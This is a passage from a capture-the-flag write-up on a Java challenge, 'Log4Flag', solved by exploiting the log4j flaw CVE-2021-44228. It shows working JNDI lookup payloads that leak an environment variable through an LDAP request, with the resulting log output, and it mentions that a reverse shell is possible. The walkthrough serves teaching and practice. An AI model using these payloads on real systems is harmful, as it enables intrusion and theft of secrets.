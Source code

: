 ```java
    }
}
```

We can see that the code is using log4j. This should ring a bell about the zero day exploit in log4j that was published about a year ago [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-44228). Knowing this and looking at the challenge name, it is kind of obvious what we should do now. We need to use this vulnerability to find the flag.

We can also see that the logger is used if our input contains the words "yes" and "please". 
```bash
$ ./run.sh
Do you want the flag?
yesplease
I won't give you the flag this easily!
22:01:16.185 [main] ERROR Log4Flag - Unauthorized access attempt with input: yesplease
```

We can see that we now get a response from the logger as well. However, we haven't gotten the flag yet. We need to dig deeper.
We will start with a PoC to show that the vulnerability is present in the code:

```
$ ./run.sh 
Do you want the flag?
${jndi:ldap://127.0.0.1/test}yesplease
I won't give you the flag this easily!
2022-11-25 21:58:39,272 main WARN Error looking up JNDI resource [ldap://127.0.0.1/test]. javax.naming.CommunicationException: 127.0.0.1:389 [Root exception is java.net.ConnectException: Connection refused (Connection refused)]
        at java.naming/com.sun.jndi.ldap.Connection.<init>(Connection.java:252)
        at java.naming/com.sun.jndi.ldap.LdapClient.<init>(LdapClient.java:137)
        ...

21:58:39.179 [main] ERROR Log4Flag - Unauthorized access attempt with input: ${jndi:ldap://127.0.0.1/test}yesplease
```

The error messages proof that the vulnerability exists. The server tries to conntact a LDAP server and the connection gets refused. If we have a LDAP server, we could try to send request to it in order to create a reverse shell. This is not neccessary in this example. If we look at the `run.sh` script, we can see that the flag is saved in an environment variable called `FLAG`.
We can perform an environment lookup with log4j and retrieve the flag from the environment variables. 

```
$ ./run.sh     
Do you want the flag?
${jndi:ldap://127.0.0.1/${env:FLAG}}yesplease
I won't give you the flag this easily!
2022-11-25 22:10:38,008 main WARN Error looking up JNDI resource [ldap://127.0.0.1/nland{dummy-flag}]. javax.naming.CommunicationException: 127.0.0.1:389 [Root exception is java.net.ConnectException: Connection refused (Connection refused)]
...

22:10:37.920 [main] ERROR Log4Flag - Unauthorized access attempt with input: ${jndi:ldap://127.0.0.1/${env:FLAG}}yesplease
```

We managed to exploit the code locally and to retrieve the dummy flag. It is contained in the exception log. Now we just have to execute the same payload on the server and we will be rewarded with the real flag. <br>
The flag is `nland{3nv1r0nm3n7_l00kup_&_m461c_w0rd_4_fl4g}`.
